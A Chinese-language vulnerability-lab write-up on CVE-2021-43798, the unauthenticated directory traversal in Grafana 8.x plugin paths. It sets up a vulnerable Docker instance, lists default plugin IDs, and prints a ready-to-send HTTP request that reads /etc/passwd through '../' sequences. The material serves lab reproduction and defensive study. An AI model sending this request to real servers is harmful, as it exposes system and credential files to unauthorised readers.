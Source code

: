 # Grafana 8.x 插件模块目录穿越漏洞（CVE-2021-43798）

Grafana是一个开源的度量分析与可视化套件。在2021年12月，推特用户@j0v 发表了他发现的一个0day，攻击者利用这个漏洞可以读取服务器上的任意文件。

参考链接：

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## 漏洞环境

执行如下命令启动一个Grafana 8.2.6版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`即可查看登录页面，但是这个漏洞是无需用户权限的。

## 漏洞复现

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用`../`的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的`alertlist`换成其他合法的插件id）：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
